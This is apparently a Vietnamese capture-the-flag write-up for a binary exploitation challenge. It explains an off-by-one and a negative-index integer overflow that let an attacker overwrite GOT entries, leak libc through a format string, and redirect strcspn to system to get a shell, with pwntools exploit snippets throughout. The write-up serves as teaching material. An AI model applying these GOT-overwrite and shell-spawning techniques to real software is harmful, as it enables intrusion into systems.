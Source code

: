 **1. Tìm bug**

 - ![image-20230323205134065](./assets/image-20230323205134065.png)

 - checksec thì thấy `relro partial` do đó ta có thể ghi đè phân vùng `got`, cũng như `pie` tắt dễ dàng cho việc ghi đè các địa chỉ hàm.

 - ![image-20230323201912405](./assets/image-20230323201912405.png)

 - Tại `main` có call 3 hàm chính đó là `user_register`, `user edit` và `menu` trong đó `menu` là một `loop`.

 - ta sẽ đi vào 2 hàm của `user`

 - ![image-20230323202849145](./assets/image-20230323202849145.png)

 - ![image-20230323202906186](./assets/image-20230323202906186.png)

 - Nhìn thì có thể thấy ngay lỗi `off byte one` khi mà `strncpy` với lượng `size + 1`, với `max_size` là `0x100` tuy nhiên tới đây tôi vẫn chưa thấy gì về công dụng của nó

 - Sau khi tiến vào `menu` ta được cho các `option` sau:

 - ![image-20230323204731897](./assets/image-20230323204731897.png)

 - Ta có thể thấy được lỗi `interger overflow` tại hàm `configure_engine`

 - ![image-20230323205000714](./assets/image-20230323205000714.png)

 - Với `num` là `int` do đó ta có thể nhập nó với giá trị âm, khiến `&engines + 16*num` trỏ vào phân vùng `got`, ý tưởng ở đây là ta sẽ thay đổi `exit@got` thành `user_edit` và `strcspn@got` thành `printf` để leak `libc`.
 - Sau khi có `libc` ta sẽ ghi lại hàm `strcspn@got` thành `system`
 - Để thực thi được thì ta phải đưa `*curr_user + 64 = 1`, khi mà `*curr_user + 64` lại được set bằng 2 ở hàm `setup`

 - ![image-20230323211059286](./assets/image-20230323211059286.png)
 - và ta cũng có thể thay đổi nó thông qua hàm `change_role` 
 - ![image-20230323211212961](./assets/image-20230323211212961.png)
 - Tuy nhiên `*curr_user + 64` đến đây thì ta đã biết được lỗi `off byte one` kia để làm gì rồi đấy, ta sẽ sử dụng nó để đè `null` byte vào thằng này và có thể thực thi được `change_role`

**2. Exploit**

 - ```python
   payload = b'a'*0x100
   sa(b'username: ', payload)
   sla(b'> ', b'n')    
   sla(b'size: ', str(0x100).encode())
   sa(b'username: ', b'a'*255)
   ```

 - đầu tiên ta sẽ thay đổi `curr_user + 64` thành `null`, do `DWORD` nên ta sẽ `*4` trên `gdb` để kiểm tra

 - ![image-20230323212852438](./assets/image-20230323212852438.png)

 -  ```python
    choice(5)
    sla(b'role: ', b'1')
    
    config_eng(-7, exe.sym['user_edit'], 0, b'y')
    config_eng(-12, exe.sym['printf'], 0x4010d0, b'y')
    
    ```

 - Tiếp ta thay đổi `*curr_user + 64` thành `1`, `exit@got` thành `user_edit` và `strcspn@got` thành `printf` do địa chỉ kế cận cũng sẽ bị thay đổi nên ở `strcspn@got + 8` tức `fgets@got` ta sẽ đưa địa chỉ nguyên thủy của nó để tránh lỗi là `0x4010d0`

 - ![image-20230323213003493](./assets/image-20230323213003493.png)

 - ```python
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'%19$p')
   libc.address = int(r.recv(14), 16) - 0x29d90
   print(hex(libc.address))
   ```

 - Tiếp theo ta quay lại `user_edit` bằng `exit` và thực hiện leak `libc` thông qua `strcspn(s, "\n")` với `s` là `buffer` được nhập vào.

 - ```python
   config_eng(-12, libc.sym['system'], 0x4010d0, b'y\x00\x0a')
   
   choice(0)
   sla(b'size: ', b'100')
   sla(b'username: ', b'/bin/sh\x00')
   ```

 - Sau khi leak `libc` ta sẽ ghi `strcspn@got` thành `system` và thực thi lấy `shell` thông qua `user_edit`

 - ![image-20230323213413224](./assets/image-20230323213413224.png)

 - ![image-20230323213434773](./assets/image-20230323213434773.png)
